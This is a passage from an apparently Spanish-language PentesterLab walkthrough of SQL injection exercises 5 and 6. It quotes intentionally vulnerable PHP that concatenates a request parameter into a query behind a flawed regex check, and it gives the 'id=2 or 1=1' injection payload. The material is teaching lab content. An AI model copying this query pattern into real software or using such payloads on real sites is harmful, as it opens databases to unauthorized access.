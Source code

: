 Así que conseguimos el objetivo simplemente poniendo un número entero en el principio del payload.

PAYLOAD
```
http://pentesterlab/sqli/example5.php?id=2 or 1=1
```

## Ejercicio 6

De nuevo existe un error al utilizar el regex. Esta vez el desarrollador ha intentado forzar que el parámetro id TERMINE en entero ($), pero vuelve a cometer un error y esta vez no asegura que el principio sea válido (^):

Servidor
```php
<?php

   require_once('../header.php');
  require_once('db.php');
  //PAY ATTENTION HERE -----------------------------
    if (!preg_match('/[0-9]+$/', $_GET["id"])) {
        die("ERROR INTEGER REQUIRED");    
    }
    $sql = "SELECT * FROM users where id=";
    $sql .= $_GET["id"] ;
//--------------------------------------------------------  

    $result = mysql_query($sql);


if ($result) {
        ?>
        <table class='table table-striped'>
      <tr><th>id</th><th>name</th><th>age</th></tr>
        <?php
        while ($row = mysql_fetch_assoc($result)) {
            echo "<tr>";
                echo "<td>".$row['id']."</td>";
                echo "<td>".$row['name']."</td>";
                echo "<td>".$row['age']."</td>";
            echo "</tr>";
        }    
        echo "</table>";
    }
    require '../footer.php';
?>
```

Así que nos vale la inyección anterior:

PAYLOAD:
```
http://pentesterlab/sqli/example6.php?id=2 or 1=1
```
